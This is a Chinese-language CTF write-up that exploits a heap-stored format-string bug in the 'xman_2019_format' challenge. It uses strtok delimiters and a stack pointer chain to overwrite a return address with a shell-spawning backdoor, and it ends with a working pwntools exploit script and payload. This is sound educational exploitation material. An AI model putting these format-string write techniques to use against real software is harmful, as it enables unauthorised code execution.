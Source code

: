 首先checksec

![image-20210421092017064](https://static.hack1s.fun/images/2021/04/20/image-20210421092017064.png)

main函数里面一层一层的调用，实际上最终就是`read`到堆上的字符串经过了`strtok`之后用`printf`输出

![image-20210421092117824](https://static.hack1s.fun/images/2021/04/20/image-20210421092117824.png)

![image-20210421092053251](https://static.hack1s.fun/images/2021/04/20/image-20210421092053251.png)

关于`strtok(s,delim)`，作用是根据`delim`将`s`切分

```C
#include<string.h>
#include<stdio.h>
int main(void)
{
    char input[16]="abc,d";
    char*p;
    /*strtok places a NULL terminator
    infront of the token,if found*/
    p=strtok(input,",");
    if(p)
        printf("%s\n",p);
        /*Asecond call to strtok using a NULL
        as the first parameter returns a pointer
        to the character following the token*/
    p=strtok(NULL,",");
    if(p)
        printf("%s\n",p);
    return 0;
}
```

第一次调用时input要有内容，返回的值是切分后第一个片段的指针；

第二次调用直接设置input为NULL，就可以返回后面的片段；

![image-20210421092644343](https://static.hack1s.fun/images/2021/04/20/image-20210421092644343.png)

执行一下输入连续的`%p`，可以看到输出的结果没有变化

这是因为实际上是执行了三次printf，每次都是`printf(%p)`，输出了同一个值

这个题目比较独特的地方就是格式化字符串存储在堆上

另外就是只能输入一次，所以也没办法泄漏地址之后交互；

因为格式化字符串在堆上，是没办法像之前一样直接修改、跳转的

这个程序虽然只能输入一次，但是调用格式化字符串时是用循环多次调用了`printf`

所以利用这个分隔符也可以多次执行格式化字符串；



程序里有一个后门函数`0x80485ab`，直接调用`system("/bin/sh")`

所以最终做的方法就是用格式化字符串修改返回地址为这个system函数

非栈上的格式化字符串写需要间接写

![image-20210421191015006](https://static.hack1s.fun/images/2021/04/21/image-20210421191015006.png)

例如我们想要在`0xffdd606c`这个返回地址的地方写入后门函数的地址；

那么首先就需要控制一个指针指向`0xffdd606c`

那么可以首先用格式化字符串控制写`0xffdd6068`的偏移，`%10$n`实际上这样修改的是`0xff6088`处的值，例如可以将其修改为`0xffdd606c`，这样就构造出了这样一个链条

```python
0xffdd6068->0xffdd6088->0xffdd606c->0x804864b
```

这之后我们再利用格式化字符串写`0xffdd6088`的偏移，这样最终就改写了`0xffdd606c`处的返回地址

通过这样的方法修改返回地址为backdoor就可以了

```python
from pwn import *

io = remote('node3.buuoj.cn',29186)
#io = process('./xman_2019_format')
elf = ELF('./xman_2019_format')

backdoor = 0x80485ab
payload = "%108c%10$hhn|%34219c%18$hn"

io.send(payload)

io.interactive()
```

我们这里调试看到的是`6c`，即108，最终要把返回地址的第16位修改为`0x85ab`即34219

但是由于开了随机化，实际上运行过程中`6c`中的`6`是一直在变化的，不过这样多运行几次就可以跑出来

由于取值有16种可能(0-f)，几率大概是`1/16`

